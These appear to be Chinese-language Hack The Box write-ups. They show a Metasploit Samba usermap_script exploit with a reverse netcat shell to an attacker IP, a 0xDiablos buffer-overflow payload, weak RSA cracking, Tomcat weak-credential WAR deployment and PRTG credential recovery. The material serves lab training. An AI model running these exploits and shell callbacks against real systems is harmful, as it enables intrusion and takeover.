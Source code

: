 ## 1. Lame

这里使用 `CVE-2007-2447` 即可完成

```bash
msf6 > use exploit/multi/samba/usermap_script 
[*] No payload configured, defaulting to cmd/unix/reverse_netcat
msf6 exploit(multi/samba/usermap_script) > show options

Module options (exploit/multi/samba/usermap_script):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS                   yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasp
                                      loit
   RPORT   139              yes       The target port (TCP)


Payload options (cmd/unix/reverse_netcat):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.31.100   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf6 exploit(multi/samba/usermap_script) > set LHOST 10.10.14.2
LHOST => 10.10.14.2
msf6 exploit(multi/samba/usermap_script) > set rhosts 10.10.10.3
rhosts => 10.10.10.3
msf6 exploit(multi/samba/usermap_script) > run 

```

## 2. Find The Easy Pass


搜索关键字，然后找到调用函数即可看得到密码

### IDA

```c
__writefsdword(0, (unsigned int)v6);
System::__linkproc__ LStrLAsg(&v16, &str_f[1]);
System::__linkproc__ LStrLAsg(&v15, &str_o[1]);
System::__linkproc__ LStrLAsg(&v14, &str_r[1]);
System::__linkproc__ LStrLAsg(&v13, &str_t[1]);
System::__linkproc__ LStrLAsg(&v12, &str_r[1]);
System::__linkproc__ LStrLAsg(&v11, &str_a[1]);
System::__linkproc__ LStrLAsg(&v10, &str_n[1]);
System::__linkproc__ LStrLAsg(&v9, &str___13[1]);
System::__linkproc__ LStrCatN(&v17, 8, v2, v15, v14, v13, v12, v11, v10, v9);
Controls::TControl::GetText(*(Controls::TControl **)(a1 + 760));
System::__linkproc__ LStrCmp(v8, v17);
if ( v4 )
    Dialogs::ShowMessage((Dialogs *)&str_Good_Job__Congr[1], v3);
else
    Dialogs::ShowMessage((Dialogs *)&str_Wrong_Password_[1], v3);
```

### x64dbg

```
00454110 | 8D45 FC                  | lea eax,dword ptr ss:[ebp-4]            | [ebp-4]:"fortran!"
00454113 | BA 08000000              | mov edx,8                               |
00454118 | E8 7F04FBFF              | call easypass.40459C                    |
0045411D | 8D55 D8                  | lea edx,dword ptr ss:[ebp-28]           | [ebp-28]:"123123"
00454120 | 8B83 F8020000            | mov eax,dword ptr ds:[ebx+2F8]          |
00454126 | E8 E5EFFDFF              | call easypass.433110                    |
0045412B | 8B45 D8                  | mov eax,dword ptr ss:[ebp-28]           | [ebp-28]:"123123"
0045412E | 8B55 FC                  | mov edx,dword ptr ss:[ebp-4]            | [ebp-4]:"fortran!"
00454131 | E8 F204FBFF              | call easypass.404628                    |
00454136 | 75 0C                    | jne easypass.454144                     |
00454138 | B8 DC414500              | mov eax,easypass.4541DC                 | 4541DC:"Good Job. Congratulations"
0045413D | E8 EE38FDFF              | call easypass.427A30                    |
00454142 | EB 0A                    | jmp easypass.45414E                     |
00454144 | B8 00424500              | mov eax,easypass.454200                 | 454200:"Wrong Password!"
00454149 | E8 E238FDFF              | call easypass.427A30                    |
0045414E | 33C0                     | xor eax,eax                             |
```

## 3. Weak RSA

使用`RsaCtfTool`这个工具可以算出弱密码的私钥

获得私钥

```bash
python3 RsaCtfTool.py --publickey key.pub --private
```

解密文件

```bash
python3 RsaCtfTool.py --key key.priv --uncipherfile flag.enc

openssl rsautl -in flag.enc -out flag.txt -decrypt -inkey key.priv
```

## 4. Jerry

使用弱口令`admin:s3cret`登入`tomcat`，部署`war`包，然后在`administrator`的桌面`flags`文件夹下可以找到`flag`

## 5. You know 0xDiablos

一个缓冲区溢出的漏洞
```c
int vuln()
{
  char s[180]; // [esp+0h] [ebp-B8h] BYREF

  gets(s);
  return puts(s);
}

char *__cdecl flag(int a1, int a2)
{
  char *result; // eax
  char s[64]; // [esp+Ch] [ebp-4Ch] BYREF
  FILE *stream; // [esp+4Ch] [ebp-Ch]

  stream = fopen("flag.txt", "r");
  if ( !stream )
  {
    puts("Hurry up and try in on server side.");
    exit(0);
  }
  result = fgets(s, 64, stream);
  if ( a1 == -559038737 && a2 == -1059139571 )
    result = (char *)printf(s);
  return result;
}
```

```
Arch:     i386-32-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX disabled
PIE:      No PIE (0x8048000)
RWX:      Has RWX segments
```

整体思路，覆盖`EIP`，返回到`flag`函数，并提供两个参数，值分别为`0DEADBEEFh`,`0C0DED00Dh`

使用`pwntools`进行开发

```c
payload = 'A' * 188
payload += p32(0x080491E2)  # overwrite eip
payload += p32(0x12345678)  # fix eip
payload += p32(0xDEADBEEF)
payload += p32(0xC0DED00D)
```

## 6. Netmon

使用 `ftp` 匿名登录服务器，在`users->public` 目录下得到` user.txt`

接着查找PRTG的密码存储方式

[https://kb.paessler.com/en/topic/62202-where-are-stored-passwords-saved](https://kb.paessler.com/en/topic/62202-where-are-stored-passwords-saved)

[https://kb.paessler.com/en/topic/463-how-and-where-does-prtg-store-its-data](https://kb.paessler.com/en/topic/463-how-and-where-does-prtg-store-its-data)

并且找到配置文件路径

```
<dbpassword>
<!-- User: prtgadmin -->
PrTg@dmin2018
</dbpassword>
```

但是密码不正确，试着改成`2019`即可

然后是过期版本，可以使用 `CVE-2018-9276` 即可得到管理员权限

## 7. Under Construction

[Under Construction](/HTB/Web/Under_Construction.md)

## 8. Blue

永恒之蓝的利用